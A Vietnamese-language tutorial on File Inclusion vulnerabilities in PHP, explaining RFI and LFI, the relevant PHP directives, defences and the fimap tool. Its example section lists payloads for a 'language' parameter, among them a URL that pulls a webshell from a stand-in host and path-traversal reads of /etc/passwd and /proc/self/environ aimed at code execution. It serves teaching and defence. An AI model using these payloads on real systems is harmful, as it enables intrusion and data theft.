

# I. Khái niệm File Inclusion
* Là một kiểu tấn công thường gặp ở các web app trong quá trình thực thi code
* Lỗ hổng này xảy ra khi app có những đường dẫn tới code thực thi, mà các đường dẫn này lại thông qua người dùng, làm cho kẻ tấn công có thể "điều hướng" sang các files thực thi khác

### **Sự khác nhau giữa Path Traversal và File Inclusion:**
* Path Traversal: lỗ hổng cho phép truy cập vào những files mà người dùng vốn không có quyền truy cập vào
* File Inclusion: khai thác vào cách mà app thực thi code

## Phân loại:
### 1. Remote File Inclusion (RFI):
* Thường xảy ra khi mục tiêu down về và thực thi một file nào đó
* File này thường được tải thông qua tham số mà người dùng cung cấp tới app dưới dạng HTTP hoặc FTP URI

### 2. Local File Inclusion (LFI):
* Cũng giống RFI nhưng khác ở chỗ thay vì là file phải down về thì là những files đã có sẵn trong server 

  

# II. Cơ chế khai thác (xét với PHP)
* Thông thường các programmers non có khâu kiểm duyệt các input bởi người dùng cho các hàm gọi tới các files để thực thi còn chưa chặt chẽ
* Trong PHP có một cái directive (hiểu nôm na là "sự chỉ dẫn"), nếu được sử dụng, cho phép các hàm sử dụng URL để lấy data từ nơi khác
    * versions <= 4.3.4: *allow_url_fopen*
    * versión 5.2.0: *allow_url_include*
* Từ phiên bản 5.x trở đi, directive này mặc định thì bị vô hiệu hóa, còn các phiên bản về trước thì vẫn được bật
* Để khai thác lỗ hổng này, kẻ tấn công sẽ thay thế biến truyền vào các hàm này để làm nó include code bẩn ở nơi nào đó

VD: Xét đoạn PHP sau, trong đó có chứa request đến một file

    

    
* Có thể đoán mục đích ban đầu là include các files như english.php hay french.php để hiển thị ngôn ngữ lên app
* Nhưng qua tham số *language*, ta có thể "tiêm" một số payloads có dạng như sau:
    * language=http://evil.example.com/webshell.txt?: truyền vào một file file code bẩn (RFI)
    * language=C:\\\ftp\\\upload\\\exploit: thực thi code ở file đã có sẵn trong server có tên exploit.php (LFI)
    * language=C:\\\notes.txt%00: thậm chí có thể dùng null byte để truy cập được nhiều files hơn là mỗi php (từ phiên bản 5.3 không được sử dụng nữa)
    * language=../../../../../etc/passwd%00: tận dụng path traversal để đọc file bất kỳ
    * language=../../../../../proc/self/environ%00: đọc nội dung của /proc/self/environ. Qua đó có thể điều chỉnh HTTP header (như User-Agent) để thực hiện RCE

  

# III. Cách phòng chống
* Cần có khâu kiểm duyệt user input chặt chẽ 
* Với các phiên bản PHP thấp, tắt allow_url_fopen và allow_url_include, hoặc cập nhật lên phiên bản PHP cao hiwn

  

# Một số tools khai thác:
* fimap

  

# Tài liệu tham khảo:
* https://en.wikipedia.org/wiki/File_inclusion_vulnerability
* https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3
* https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
